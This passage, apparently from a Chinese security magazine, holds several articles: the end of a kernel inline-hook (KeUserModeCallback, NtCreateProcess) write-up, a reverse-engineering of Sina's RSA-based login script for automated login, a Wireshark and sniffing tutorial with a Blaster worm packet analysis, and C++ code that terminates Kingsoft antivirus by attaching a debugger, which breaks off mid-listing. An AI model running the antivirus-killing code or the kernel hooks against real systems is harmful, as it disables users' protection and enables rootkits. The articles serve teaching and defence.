当参数 ApiNumber=LOAD_IMAGE_API_NUM 时，是指加载 DLL 的状态。通过参数 InputBuffer 可以得到加载 DLL 的名称。使用不同操作系统，在加载 DLL 时，InputBuffer 参数偏移到 DLL 名称的距离值是有所不同的。大型安全软件 Function 函数应当是先判断操作系统，从而确定 InputBuffer 参数偏移到 DLL 名称的距离值，准确地获得加载的 DLL 名称，并建立黑白名单，黑名单直接拦截，白名单直接放过，其他的在给用户一定提示的情形下，交由用户来判断是否拦截。由于代码量很大且个人能力有限，就不具体实现了。本程序对 Windows XP 与 Windows 7 系统均可适用，其中在 Windows 7 系统中加载后用 XueTr 查看如图1所示，可以很清楚地看到我们的 Inline Hook KeUserModeCallback 以及 360 安全卫士的 IAT HOOK KeUserModeCallback。
图1

## 经验教训总结

在整个编程过程中总结了几点经验教训，和大家分享一下：

- 1. 在使用 MmGetSystemRoutineAddress 函数获取地址时，想获取地址的函数名字一定要书写正确。一开始我把 KeUserModeCallback 中的“b”误写为“B”，导致没有获得正确的地址。
- 2. Inline Hook 功能强大，实现难度相对比较大，Hook 地点的选择对 Inline Hook 的成败有很大影响。总的说来，在函数体内部进行 HOOK 的难度相对比较大，一般还是倾向于在函数的开头和结尾进行 HOOK。比如说我们这次的 Inline Hook 是在开头处的“push x、push xxxx”，仔细观察一下结尾处也可以进行类似的操作。再如，NtCreateProcess 反汇编的头几个字节如下，让我们考虑一下如何进行 Inline Hook：

```text
lkd> u NtCreateProcess
nt!NtCreateProcess:
805c84a0 8bff          mov edi,edi
805c84a2 55            push ebp
805c84a3 8bec          mov ebp,esp
```

实际上这头五个字节已经足够我们开发 Inline Hook 之用了，伪代码表示如下：

```c
*(PULONG)((ULONG)fnNtCreateProcess) = 0xe9; //修改为 jmp xxxx
*(PULONG)((ULONG)fnNtCreateProcess+0x01) = myhook - fnNtCreateProcess - 5;
```

- 3）使用 DUMP 文件分析 BSoD 原因非常重要。一开始我在 Inline Hook 函数中并没有写如下两句，即在返回点处没有赋系统原值，导致 BSoD。

```c
*(PULONG)((ULONG)fnKeUserModeCallback+0x07) = 0xe8; //以下两句为赋系统原值
*(PULONG)((ULONG)fnKeUserModeCallback+0x08) = (ULONG)fnKeUserModeCallback08fun;
```

后来解决的办法是通过 DUMP 文件分析，发现在 KeUserModeCallback 偏移 0x07 地址处，即返回点的值为零导致了 BSoD，遂加入这两句，成功地实现了本程序。错误如下：

```text
FAULTING_IP:
nt!KeUserModeCallback+7
8059805f 0000              add      byte ptr [eax],al


```

在我们开发 Windows 内核程序时，稍有不慎便会导致 BSoD，因此学会 DUMP 文件分析很重要。下面设置的过程：打开“我的电脑”→“属性”→“高级”选项卡中的“启动和故障恢复”，点击“设置”，按图2方法设置。
图2

如此设置后，DUMP 文件便保存在了“c:\WINDOWS\Minidump”目录中（c 为系统盘符）。在发生 BSoD 之后，就要使用 WinDbg 工具了：先打开“File”→“Symbol File Path”加载路径“srv*c:\symbols*http://msdl.microsoft.com/download/symbols”，接着打开“File”→“Open Crash Dump”，载入保存在 Minidump 目录中的 DUMP 文件，使用命令“!analyze -v”进行分析即可。

重申一下，无保护的 Inline Hook 是非常脆弱的，以前讨论过这个问题，这里不再赘述。最后，希望对 Windows 内核程序、Windows 系统中 Rootkit 技术感兴趣的朋友，特别是刚入门的朋友，通过本文介绍的分析过程得到一些启示；同时，每一次编程也很大程度上促进了自己技术的提升。让我们共同进步，为实现心中的理想而努力奋斗。

## 攻破新浪通行证登录验证实现自动登录

文/图 耿飚

打开新浪登录界面“http://login.sina.com.cn/”，查看了一下源码，网页源码本身内容不多也很整洁。看看加载的资源，也很整洁，真有些小清新的感觉。除了页面内置的 JS 代码外，只有 3 个外部 JS 文件引用。简单地看一下这三个文件，发现只有 ssologin.js 文件有压缩，其余两个文件都是以人可读的状态保存，如图1所示。
图1

由于不管是页面内部 JS 代码还是外部引用的 JS 文件，如果想正常运行都必须以文本状态被浏览器加载，但有时一些关键逻辑不希望别人轻易获取，就必须要做一些防范。这里主要的防范方法就是混淆，使代码变得人不可读。与此同时，混淆过的代码必须符合 JS 语法规范，让计算机可以执行。JS 文件压缩也有人说是 JS 文件加密，就是利用 JS 中函数内部变量和函数使用短名称，同时删除空格、注释等附加信息，在不改变程序逻辑的前提下，生成体积小、内容变成人不可读的方法。比较有名的工具有 JSMin、YUI Compressor、Google Closure Compiler。

那这个被压缩的文件，到底是单纯为了减小文件体积而进行的压缩，还是要通过压缩进行一些混淆呢？现在还不能确定。我先不去管它，既然我的目的是要模拟登录，那我就先正式登录一次，看看会向服务器提交什么数据。

图2

通过查看浏览器与服务器之间交互的信息，很容易了解到，第6次交互的 URL 与我登录成功后的 URL 一致，显然此时已经完成了登录过程。在我登录的整个过程中，浏览器一共与服务器交互了5次，分别是图2中前5次交互。

## 深入研究

根据图2中提交的 URL 看，第3次网络通信应该就是正式的登录过程。一般登录数据提交会使用 POST 方法，不会使用简单的 GET 方法。那就看看这次提交到底提交了哪些数据。

图3

图4

图3是这次登录过程的 HTTP 头部数据，图4是这次登录过程的 URL 参数部分和 POST 的表单数据。

乍看起来，HTTP 头部数据里没有什么特殊的内容，都是一些标准的信息字段。URL 的参数部分呢，“client”参数看起来应该是登录脚本的版本号，后面那个“_”这个参数，看起来像是 JS 的时间字符串。这种以时间作为参数提交的方式，有可能是单纯为了防止浏览器使用缓存数据而不正式提交表单做的处理。

看来重点是这张 form 表单了，里面很显然“su”“nonce”“rsakv”和“sp”这几个数据比较特殊，应该是我这次的主要麻烦制造者吧。尤其是“sp”这个参数，很长。本着数据必有来源的精神，有必要好好看看在正式提交数据之前与服务器交互的内容。

多提交几次，发现其中 su 是定值，那这个 su 要么和我输入的用户名密码有关，要么就是一颗烟雾弹，就是一个定值。我先试试它是不是 base64 转码的结果，通过 base64 解码，果然是用户名通过 encodeURIComponent 转码后依照 base64 编码的结果。第一个坑轻松填掉。

这次交互的 URL 为：

```
"http://login.sina.com.cn/sso/prelogin.php?entry=account&callback=sinaSSOController.preloginCallBack&su=【这里就是上面所说的 su 的值】&rsakt=mod&client=ssologin.js(v1.4.15)&_=1408434523428"
```

下面就是返回的结果值，很多秘密原来就在这里。

```
"sinaSSOController.preloginCallBack({"retcode":0,"servertime":1408434531,"pcid":"hk-576bf11def3457a0a197c7c05cc9311d2c82","nonce":"8TOH2N","pubkey":"EB2A38568661887FA180BDDB5CABD5F21C7BFD59C090CB2D245A87AC253062882729293E5506350508E7F9AA3BB77F4333231490F915F6D63C55FE2F08A49B353F444AD3993CACC02DB784ABBB8E42A9B1BBFFFB38BE1...8D78E87A0E41B9B8F73A928EE0CCEE1F6739884B9777E4FE9E88A1BBE495927AC4A799B3181D6442443","rsakv":"1330428213","exectime":2})"
```

显然“servertime”“nonce”“rsakv”都是与登录提交的数据一致的。这里也有一个出奇长的参数“pubkey”，单纯看这个名字就感觉应该是加密算法中的公钥，与上面那段代码中的 sp 有关联的可能性很大。

解铃还需系铃人，现在要看看“登录”按钮究竟调用了哪个函数，做了些什么操作，如图5所示。

图5

提交按钮调用了 check 函数，然后直接阻止表单的提交操作了，说明 check 函数进行了检查和提交。

既然是脚本提交，那么就会有脚本获取用户名密码的值，接下来就要在所有的 JS 代码中寻找相关信息了。根据搜索控件 id“username”和“password”，发现只有那个被压缩的 JS 文件中存在这些关键字。看来现在不得不去了解那个被压缩（此处更确切地说是被“加密”）的 JS 文件了。不过还好，火狐的调试器有一个超赞的功能“美化源代码”，如图6所示。

图6

选择美化源代码以后，源码会被增加合理的换行和空白等内容，就方便调试了。因为我们设置断点都是执行到这一行后进行中断，如果只有一行，那调试起来就太困难了。

```javascript
function SSOController() {
  var undefined;
  var me = this;
  var updateCookieTimer = null;
  var updateCookieTimeHardLimit = 1800;
  var cookieExpireTimeLength = 3600 * 24;
  var crossDomainForward = null;
  var crossDomainTimer = null;
  var crossDomainTime = 3;
  var autoLoginCallBack2 = null;
  var ssoCrossDomainUrl = 'http://login.sina.com.cn/sso/crossdomain.php';
  var ssoLoginUrl = 'http://login.sina.com.cn/sso/login.php';
  var ssoLogoutUrl = 'http://login.sina.com.cn/sso/logout.php';
  var ssoUpdateCookieUrl = 'http://login.sina.com.cn/sso/updatetgt.php';
  var ssoPreLoginUrl = 'http://login.sina.com.cn/sso/prelogin.php';
  var pincodeUrl = 'http://login.sina.com.cn/cgi/pin.php';
  var vFValidUrl = 'http://weibo.com/sguide/vdun.php';
  var generateVisitorUrl = 'http://passport.weibo.com/visitor/visitor';
}
```

图7

针对所有包含“username”和“password”的函数设置断点，发现“makeRequest”这个函数主要负责生成提交到服务器的请求，其中“request.su = sinaSSOEncoder.base64.encode(urlencode(username));”也证实了之前对 su 是由用户名经过 urlencode 编码再经过 base64 编码的结果的猜想。

发现其他值的来源都很简单，但这里有几行代码可能比较复杂，如图8所示：

```javascript
var RSAKey = new sinaSSOEncoder.RSAKey();
RSAKey.setPublic(me.rsaPubkey, "10001");
password = RSAKey.encrypt([me.servertime,
me.nonce].join('\t') + '\n' + password)
```

图8

显然这里是用 JS 进行了 RSA 加密操作，虽然数据来源比较简单，经过跟踪，me.rsaPubkey 的来源也找到了，就是 prelogin 中返回的参数“pubkey”，但还是必须找到 RSAKey 对象才可以。经过简单的文本查找，发现定义就在这个 JS 文件中。好了，数据来源清晰了，下面将这个函数复制出来，给予一个新建对象作为参数，结果还真类似。不过我还是小心求证了一下，通过单步跟踪，将网页正常登录过程中的参数复制进去，发现不能生成一样的加密值，就是多次运行所得到的结果都不同，这到底是怎么回事呢？所有问题都要到源码中去寻求答案，原来这个加密函数中有两个地方会造成结果不同，分别是一个函数取得了系统当前时间，另一个循环中生成了一组随机数。图9中所示两个代码片段：

```javascript
function S() {
    d(new Date().getTime())
}

while (ab < M) {
    I = Math.floor(65536 * Math.random());
    T[ab++] = I >>> 8;
    T[ab++] = I & 255
}
```

图9

现在整个提交流程基本上搞清楚了，下面就是模拟登录的步骤了。由于我的环境中有 JS 解析引擎，所以这个加密脚本我可以直接运行。但要注意，由于不是浏览器，只有 JS 解析引擎，所以不存在 btoa 这样由浏览器定义的对象，需要自己通过编码实现。还有一个就是加密函数调用了“navigator.appName”，也是由于没有浏览器定义的对象，会报错误。

我就直接定义“navigator={};navigator.appName=\"Mozilla/5.0 (Windows NT 6.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/30.0.1599.69 Safari/537.36\"”模拟一个浏览器的用户代理字符串，执行提交，返回值中包含了我的昵称，说明执行成功！

登录成功后，我就可以依据我的 cookie，访问我的邮箱、微博等一系列功能了。

## 总结

这次成功的模拟提交研究，说明只要有良好的工具和细心，对网页内容进行破解不是难事，同时也提醒大家，单纯使用 JS 压缩的方式进行逻辑保护可能也有些许不足。虽然这样是在必须拥有正确用户名密码的前提下，但在 BS 方式盛行的当下，安全防护更需要得到大家的重视，否则我们的信息可能会被机器人一扫而空。

## 网络分析器使用完全接触

文/图 xfeng

如今，网络安全、网络性能、网络软件质量等问题越来越受人们关注。网络分析（Network Analysis）（也称为网络嗅探、网络流量分析、协议分析、数据包分析、网络窃听等）就是通过捕获网络流量并进行深入检查，了解网络中发生了什么情况的过程。从定义来看，网络分析主要指在网络上，通过某台主机捕获其他主机之间的数据包，实现对网络流量的监视、分析或记录，以及数据包的发送技术。为了便于深入理解网络分析技术，本文将对网络分析与网络嗅探相关的网络模型、网络硬件等基础知识进行介绍，并使用 Wireshark 工具演示实例。

## 揭开网络分析器的神秘面纱

网络分析器通常用于对通用协议的数据包进行解码，并以可读的格式来显示网络流量的内容。历史上，网络分析器曾经专注于通过昂贵的、并难于使用的硬件设备来实现。而新出现的先进技术使得基于软件进行网络分析器的开发成为可行方案，其为有效进行网络分析提供了一种更为便捷与廉价的工具，同时具备很强的网络分析能力。

## 1. 网络分析器的基本组成

一个网络分析器由硬件与软件两部分共同组成。它可以是一个带有特定软件的单独硬件设备，也可以是直接安装在台式电脑或笔记本电脑上的一个软件。尽管每种产品之间具有差别，但基本都是由下列五个基本部分组成的。

- **硬件**：多数网络分析器是基于软件的，并工作于标准的操作系统与网卡之上。不过有一些硬件网络分析器会提供额外的功能，诸如硬件故障分析（比如循环冗余校验（CRC）错误、电压问题、网线问题、抖动（Jitter）、逾限（Jabber）、协商错误等）。除了部分网络分析器仅支持以太网或无线网适配器以外，其他的均可支持多重适配器，并允许用户定制它们的配置。依据实际使用情况来看，网络分析器可能也需要一个集线器或一个网线探针（cable tap）连接已有的网线。
- **捕获驱动器**：这是网络分析器中负责从网线上捕获原始网络数据包的组件。它会过滤出需要捕获的网络数据，并把所捕获的数据保存在一个缓冲区中。这是网络分析器的核心——没有它就无法捕获网络数据包。
- **缓冲区**：该组件用于保存所捕获的数据，直到该缓冲区被填满为止。不过，如果采用循环缓冲区的方式，那么最新的数据将会替换最老的数据。
- **实时分析**：该组件可对实时数据包进行分析，也就是说数据包一离开网线就可启用此组件。部分网络分析器还用该组件监测网络性能问题，比如网络入侵检测系统利用它寻找非法的入侵活动。
- **解码（器）**：该组件用于显示网络数据包的内容，它以更便于人们理解的方式来描述数据包，它是可读的。解码特定于每个协议，因此网络分析器当前支持的可解码协议数是变化的，网络分析器可能需要经常加入新的解码协议。

另外，典型的网络分析器通常会采用如下格式来显示所捕获网络流量的信息：

- **概要**：该窗格显示所捕获内容的概要信息，包含时间、源地址、目标地址、最高层协议的名称、信息等内容。
- **详情**：该窗格提供捕获数据包所包含的每层内容的细节信息（采用树形结构）。
- **数据**：该窗格用十六进制与文本格式显示捕获数据包的原始数据。

图1所示，为 Wireshark 网络分析器的主窗口。

图1 Wireshark 网络分析器的主窗口

各种网络分析器之间的主要差别在于所支持的可解码协议数量、用户接口、图形化与统计能力等。其他的差别则包括推理能力（比如专家分析特性）与数据包解码的质量等。尽管不同的网络分析器可能会针对同一个协议进行解码，但实际工作质量可能并不相同。具体来说，网络分析器的主要用途有如下一些：将数据包中的二进制数据转换成易读的格式；处理网络故障；分析网络性能以发现瓶颈；网络入侵检测；为了辩护与收集证据的目的记录网络流量；分析应用程序的操作；发现有问题的网卡；发现病毒爆发的源头或拒绝服务（DoS）攻击；发现间谍软件；在开发阶段对网络编程进行调试；发现泄密的计算机；确认网络通信是否符合公司的政策；以上作为学习协议的资源。

## 2. 网络分析器是如何工作的

在以太网中，信息一般会被分解成易管理的数据块，这些数据块称之为数据包，而且每个数据包有一个头，包含地址与原计算机的地址。因为许多计算机可能会共享一个以太网段，所以每个计算机一定要有唯一的一个标识符，且要硬件编码到 NIC 上。在 Windows NT、Windows 2000、Windows XP 与 Windows 2003 操作系统中，都可在命令行下输入 `ipconfig /all` 查看 MAC 地址，MAC 地址将会列在“Physical Address”字段后。

与网络嗅探有关的硬件主要包括网卡、网线探针、集线器与交换机。以交换机为例，它维护着所连接计算机的 MAC 地址和交换机本身对应端口的一个关系列表。这样，当一个交换机接收到数据包时，它不会盲目地发送给所有的计算机。它会先查找数据包的头部来获得目标 MAC 地址，接着把数据包推进到该 MAC 地址对应的特定端口。这样，就把冲突域缩小为一个单独的端口了（如图2所示）。

图2 交换机冲突域

如果工作在使用交换机的网络上，那该如何执行正当的网络分析呢？很幸运的是，大部分交换机与路由器提供了端口映射机制。为了映射端口，必须配置交换机，使其可以从一个希望映射的端口复制网络流量到所连接的端口。例如图3所示，就映射了交换机端口1的所有网络流量到端口5。这样，网络分析器就可以在端口5查看发送到计算机A与计算机A发送出去的所有网络流量了。有时候，管理员会将交换机的上行端口进行端口映射，这样就能够查看出/入交换机所有端口的网络流量了。

图3 交换机端口映射

## 3. 常用网络分析器使用及其原理

现在已经有各种各样的网络分析软件可以使用，如 Wireshark、Tcpdump、WinDump、Network General Sniffer、EtherPeek、Snoop、Snort、Dsniff、Ettercap、Analyzer、Packetyzer 等。本文将采用 Wireshark 进行辅助的网络分析，网站地址为 http://wiki.wireshark.org。Wireshark 是一个网络分析器，用来捕获数据包，并尽可能详细地显示数据包的内容。现今，Wireshark 可能是一个最好的开源网络分析器。在 Windows 平台上安装 Wireshark 非常容易，基本上是直接选择“Next（下一步）”按钮即可。

- **1）捕获数据包**

安装结束后，执行菜单 [Capture] → [Interfaces…]，弹出网络接口选择界面，如图4所示。

图4 选择网络接口的界面

此处选择第二个接口右边的 Start 按钮，即可开始捕获数据包了，如图5所示。

图5 捕获数据包的界面

执行菜单 [Capture] → [Stop]，将停止数据包捕获。

- **2）数据包统计**

执行菜单 [Statistic] → [Summary]，将弹出统计界面，如图6所示。

图6 数据包统计的界面

执行菜单 [File] → [Save As...] 可将所捕获的数据包存储到一个文件中。

执行菜单 [File] → [Open...] 可将存储到文件中的数据包回放显示出来。

- **3）数据包过滤**

在主界面的过滤器（Filter）设置栏中可设置数据包显示与捕获的过滤条件。点击

```
Expression...
```

按钮，弹出过滤器设置对话框，如图7所示。

图7 过滤器设置对话框

在此以捕获与显示 IP 源地址为 192.168.0.15 的数据包为例，设置过滤器，如图8所示。

图8 设置过滤器

设置过滤器后点击“OK”按钮，Wireshark 将回到主界面，注意在过滤器栏中出现了

```
ip.src == 192.168.0.15
```

的过滤表达式，如图9所示。

图9 设置过滤器后的界面

设置过滤器后，过滤器并没有立即应用，需要点击“Apply”按钮才能实际应用，过滤后的结果如图10所示。

图10 应用过滤器后的结果

如果对过滤的表达式较熟悉，也可以在主界面的过滤器（Filter）设置栏中直接输入过滤表达式进行过滤设置。

在了解了网络分析器的工作原理之后，大家应该认识到网络分析器（嗅探器）并不是专为网络攻击、黑客入侵而开发的。事实上，由于网络分析器具有检查低层传输数据包的能力，因此我们可以很方便地使用它们来对网络进行诊断，但同时这种能力对网络安全也具有很大威胁性。

## 黑客如何使用网络分析器（嗅探器）

很明显，如果嗅探器被心怀恶意的人使用，那么将会对网络安全构成严重威胁。比如，网络入侵者会使用嗅探的方式获取用户的秘密信息。以非法的方式使用嗅探器攻击他人，被称为被动的攻击，因为嗅探器并不会直接与网络上任何其他系统相互作用或连接，它的这种被动特性使其很难被检测出来。同时，嗅探器也能通过安装在网络中的某台计算机上，来达到主动攻击的泄密目的。

### 1. 入侵思路分析

为了嗅探，入侵者首先会获取感兴趣系统的通信网线的访问权，这意味着要在同一共享网段上或在通信路径之间的网线某处接入探针。即使入侵者不与目标系统或通信访问点物理接触，他仍然有方法嗅探到网络流量，具体包括如下方式：

- 闯入一部目标计算机中且安装远程嗅探器。
- 闯入一个通信访问点，比如一个因特网服务提供商（ISP）系统中，安装嗅探软件。
- 在已经装入嗅探软件的 ISP 上定位一个系统。
- 使用社会工程学获得对一个 ISP 的直接访问，安装一个数据包嗅探器。
- 在目标计算机组织或 ISP 内部有一个同谋者，并且他在那儿已经安装了嗅探器。
- 重定向或复制通信，使通信路径中包含入侵者的计算机。

入侵者通常会把嗅探程序配置成能检测特定事情（如输入密码）的状态，在其嗅探到相关信息后，或发送给入侵者，或储存起来，供入侵者稍后取回。易受该类型程序攻击的协议包括 Telnet、文件传送协议（FTP）、第3版邮局协议（POP3）、网际报文存取协议（IMAP）、简单邮件传输协议（SMTP）、超文本传输协议（HTTP）、远程登录（rlogin）、简单网络管理协议（SNMP）等。

大多数嗅探程序都包含了类似 rootkit 的工具。该工具在泄密系统中极具代表性，它是一种奇特的程序，具有隐身功能：无论静止时（作为文件存在），还是活动时（作为进程存在），都不会被察觉。换句话说，这种程序可能一直存在于我们的计算机中，但我们却浑然不知，这一功能正是许多人梦寐以求的——不论是黑客，还是取证人员。黑客可以在入侵后植入 rootkit，秘密地窥探敏感信息，或等待时机，伺机而动；取证人员也可以利用 rootkit 实时监控嫌疑人员的不法行为，它不仅能搜集证据，还有利于及时采取行动。

实际上 rootkit 是一个特洛伊程序集，在一个受控的系统上它会替换一些合法的命令（例如 ps、ifconfig、ls 等就是一些常见的被替换命令），以避免被检测到。同时 rootkit 还会安装一些额外的软件，如 sniffers 等。rootkits 就是通过替换命令并清除日志条目等来掩盖入侵者的踪迹的。同时入侵者还可安装其他的程序，像嗅探器、键盘记录器等后门软件。

### 2. 网络分析工具的主要功能剖析

网络分析软件工具一般由图11所示的基本功能组成，当然对于要求较高的网络分析工具还要添加复杂的协议解析功能，有的还添加了专家诊断功能，但这些功能都是在图11这些基本功能之上所进行的扩展，本文中就不重点介绍了。

图11 网络分析工具的重要功能框图

从图11可知，一个网络分析工具首先需要从系统网络适配器列表中选择合适的适配器，接着需要打开所选的适配器。这样就可以在该适配器上执行数据包发送、对过滤后的数据包执行数据捕获或统计工作了，同时，还可以对捕获的数据包进行文件存储。执行结束后就可以关闭对应的网络适配器了，对于存储的数据包文件可单独执行文件打开操作，如果需要把文件中的数据包发送到网络上，那也就需要执行适配器的相关操作了。

在这些功能的实现上，对于一个优秀的网络分析工具来说，性能是关键。通常，类似于 Wireshark 之类的网络分析器，都会直接调用底层库（Windows 平台下为 WinPcap 库，Linux 平台下为 libpcap 库）来实现这些功能。这样，性能问题就由底层库来负责处理了，而 Wireshark 主要负责协议解析与图形界面显示相关的工作。图12展示了在 Windows 平台下 Wireshark 与 WinPcap 的依赖关系。

图12 Windows 平台上 Wireshark 与 WinPcap 的关系

### 3. 案例：使用嗅探器分析冲击波蠕虫

要想详细了解嗅探的概念，最容易的方法就是在实际应用中看一看具体的实例。

### 问题

如果每次启动电脑，就接收到一个消息，告诉你60秒内要重启计算机。只要时间超过60秒，计算机就会自动关机，这将导致你每次使用计算机不会超过60秒。

### 嗅探数据包

出现上述问题，很有可能是蠕虫或病毒造成的。任何时候，如果你怀疑一个病毒或蠕虫可能就是导致计算机出现问题的原因，直接在问题计算机上安装嗅探器并不是一个明智的选择。恶意软件经常会干扰嗅探器的正常工作，最好的办法是使用端口映射。数据包捕获的时机为：从问题计算机刚刚启动开始到将要自己关机时结束。

### 数据包分析

所捕获的数据包如图13所示。此截图中记录了问题计算机与另一台计算机之间传输的几个 TCP 数据包。可在进行数据包捕获时网络上并没有其他计算机活动，所以这里的网络行为是可疑的。

图13 所捕获的数据包

识别病毒或蠕虫网络流量的一个较好方法是查看网络间的原始数据。我们来分析一下所捕获的每个数据包。第一个数据包看不出什么特别的，没有多少有用的信息，如图14所示。

```text
0000  00 10 59 aa af 80 00 01 96 3c 3f a8 08 00 45 00
0010  00 28 08 ed 40 00 7f 06 d9 ac 0a ea 00 ef 0a ea
0020  02 74 07 01 11 5c 76 be 16 50 cd 5a 82 b2 50 10
0030  43 b2 59 73 00 00 00 00 00 00 00 00
```

图14 第一个数据包的内容

接着看第二个数据包，发现其中有对 `C:\WINNT\System32` 目录的引用。这是一个很重要的系统目录，包含了许多加载和运行操作系统的文件。如果看见一个网络数据包引用这个目录，通常是存在问题的一个提示（如图15所示）。

```text
0000  00 80 ad d1 84 d7 00 d0 59 aa af 80 08 00 45 00
0010  00 3c 00 3a 40 00 80 06 e1 4b 0a ea 02 74 0a ea
0020  00 ef 11 5c 07 01 cd 5a 82 b2 76 be 16 50 50 18
0030  fb db 73 31 00 00 0d 0a 43 3a 5c 57 49 4e 4e 54
0040  5c 73 79 73 74 65 6d 33 32 3e
```

图15 引用 C:\WINNT\System32 意味着可能访问系统文件

再来看第三个数据包，它没有提供什么有用的信息，但是第四个数据包显示的信息值得关注，如图16所示。

```text
0000  00 d0 59 aa af 80 00 01 96 3c 3f a8 08 00 45 00
0010  00 3a 08 ef 40 00 7f 06 d9 98 0a ea 00 ef 0a ea
0020  02 74 07 01 11 5c 76 be 16 50 cd 5a 82 c6 50 18
0030  43 9e a0 4d 00 00 73 74 61 72 74 20 6d 73 62 6c
0040  61 73 74 2e 65 78 65 0a
```

图16 第四个数据包引用了 msblast.exe

其中，msblast.exe 就是冲击波蠕虫，这就是计算机出现问题的根源所在。

## 防止网络嗅探的安全措施

消除嗅探器并不是一件很困难的事情，通常可采取加密和网络分割的办法来防止嗅探器的攻击。

### 1. 加密

如果仅仅需要防止远程登录时用户账号和安全口令被截取，可以在主机上安装动态口令（One Time Password，OTP）系统。在使用 OTP 的系统中，用户在登录时会根据主机提出的一个迭代值和一个种子值计算出本次登录的口令。

如果需要保护电子邮件免遭窃取，可以对邮件使用 PGP 加密软件（PGP 是 Pretty Good Privacy 的简称，是一个加密软件系列），对该算法目前还没有找到比穷举算法更有效的破解办法。这两种办法实现起来较简单，可它们不能完全阻止监听者从网络上截取各种数据包的相关信息后，通过分析或是脱壳解密得到他想要的东西。

更加安全的方法是利用 SNP 和 SSH 系统。SNP 系统可以运行在很多操作系统上，它提供了一种安全的验证协议，使 TELNET、FTP、RLOGIN 等应用的用户账号和安全口令不再是以明文的方式传输。SNP 系统中所有的传输数据都是采用 DES 加密的，监听者只能看到一些乱码。SSH 是基于 C/S 模型的，标准的 SSH 服务端口为22，SSH 采用 RSA 加密算法建立连接，验证过程结束后，所有的信息都采用 IDEA 技术加密，这是一种典型的强加密方式，适合于所有的通信。SSH 曾一度为加密安全通信的主要协议。如果网络系统中使用了 SSH，那么用户 ID 和口令被捕获的概率将大大降低。

### 2. 网络分割

通常人们所能接受的防止嗅探器攻击的办法是使用安全的网络拓扑结构。我们知道，网络广播的时候，信息包只能被同一网络地址段中的嗅探器捕获。所以可以利用网络分割的技术，进一步划分网络，减小嗅探器能够监听的范围，这样网络的其余部分就可免受嗅探器的攻击了。一般可以采用交换机来划分网段，并使用网桥或网络路由器来划分子网。实际上 PC 和工作站都可以配置成网桥或路由器，同一个网络地址段内最好都是互相可以信任的计算机。通过网络分割，安装了嗅探器的计算机仅仅能够捕获有限范围内计算机的信息流。如果发现了在某一网络地址段有嗅探器，也很容易确定是哪些人所设置的。

总之，网络分析是一把双刃剑。当网络、系统与安全的专业人员使用它处理网络故障或监视网络时，或许也正有网络入侵者为了达到非法目的在使用它。网络分析仅仅是一种技术，就像所有的技术一样，它也可以被用在好或坏的目的之上。通过对其攻击原理和防范措施进行了解之后，我们就能在实际工作中更加有的放矢，做好安全防范了。

## 自编调试器结束金山毒霸

文/图 李旭昇

一日闲来无事，在任务管理器中金山毒霸主进程（kxetray.exe）上点击右键，调试（Debug）。本以为一定会被禁止访问，没想到 VS 竟能成功附加！当然 VS 这个大块头要过好久才加载完毕。我随手关掉 VS，不料金山毒霸也跟着退出了，由此我想到可以利用调试器结束金山毒霸进程。

图1 在任务管理器中启动调试器，并附加到 kxetray.exe

我首先用 Windbg 进行测试，运行 Windbg，按 F6 并从进程列表中选择 kxetray.exe，点击确定之后成功附加。我首先尝试直接结束被调试进程，失败。这可能是有金山毒霸的自我保护，文雅的方法不奏效，干脆清零寄存器。我随手把 rsp、rip 等几个关键寄存器清零然后将 kxetray.exe 从调试器分离。后经测试，最简单的办法是附加后什么都不做直接关闭 Windbg，此时 Windows 的调试机制将自动结束被调试进程。

如果想要自己编程实现上述过程，我们需要实现一个最基本的——能够附加到正在运行的进程的调试器，简单来说代码只有两行：

```cpp
GetProcessIdByName(L"kxetray.exe", &dwPID);
DebugActiveProcess(dwPID);
```

然后我们对被调试进程不闻不问就可以将其解决，由进程名获得 PID 的方法非常简单，只需用 CreateToolhelp32Snapshot 创建进程快照并用 Process32First 和 Process32Next 遍历即可。感兴趣的读者可以参考源代码，这里不再赘述。DebugActiveProcess 是 Windows API，只有一个参数，就是进程的 PID。当然为了保证附加成功，我们希望获得 SE_DEBUG_NAME 权限。提权的过程也不复杂，我们学习一下 MSDN 中给出的代码：

```cpp
BOOL SetPrivilege(
   HANDLE hToken,      // access token handle
   LPCTSTR lpszPrivilege,  // name of privilege to enable/disable
   BOOL bEnablePrivilege   // to enable or disable privilege
)
{
    TOKEN_PRIVILEGES tp;
    LUID luid;
    if (!LookupPrivilegeValue(
        NULL,              // lookup privilege on local system
        lpszPrivilege,     // privilege to lookup
        &luid))            // receives LUID of privilege
    {
        printf("LookupPrivilegeValue error: %u\n", GetLastError());
        return FALSE;
    }

    tp.PrivilegeCount = 1;
    tp.Privileges[0].Luid = luid;
    if (bEnablePrivilege)
        tp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;
    else
        tp.Privileges[0].Attributes = 0;

    // Enable the privilege or disable all privileges.
    if (!AdjustTokenPrivileges(
        hToken,
        FALSE,
        &tp,
        sizeof(TOKEN_PRIVILEGES),
        (PTOKEN_PRIVILEGES)NULL,
        (PDWORD)NULL))
    {
        printf("AdjustTokenPrivileges error: %u\n", GetLastError());
        return FALSE;
    }

    if (GetLastError() == ERROR_NOT_ALL_ASSIGNED)
    {
        printf("The token does not have the specified privilege. \n");
        return FALSE;
    }

    return TRUE;
}
```

想要获得 Debug 权限只需：

```cpp
BOOL EnableDebugPrivilege()
{
    HANDLE hToken = NULL;
    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ALL_ACCESS, &hToken))
    {
        cout << "Fail to Open current process token." << endl;
        return FALSE;
    }
    return SetPrivilege(hToken, SE_DEBUG_NAME, TRUE);
}
```

我们的程序附加到目标进程后，只有自己退出后目标进程才会被结束。为了能够获得控制权，我们可以用前面提过的方法，清零寄存器并分离被调试进程。不过这种方法实现起来较为麻烦，我们采用一种变通的方法。在我们从程序附加到 kxetray.exe 后，在退出前再运行一次自身。第二次运行的程序会检测 kxetray.exe 是否已经退出。如果是，则给出提示。代码如下：

```cpp
int main(int argc, char** argv)
{
    if (!EnableDebugPrivilege())
    {
        cout << "Fail to enable debug privilege." << endl;
    }
    else
    {
        cout << "Obtained debug privilege." << endl;
    }

    Sleep(1000);
    DWORD dwPID = 0;
    if (!GetProcessIdByName(L"kxetray.exe", &dwPID))
    {
        cout << "Target not found." << endl
             << "Do something you want here!" << endl;
        getchar();
    }
    else
    {
        cout << "Pid= " << dwPID << endl;
    }

    if (!DebugActiveProcess(dwPID))
    {
        cout << "Fail to attach to target..." << endl;
        return FALSE;
    }
    else
    {
        // ...
    }
}
```

```cpp
{
    cout << "Attached to target. It will be killed as this process exits." << endl;
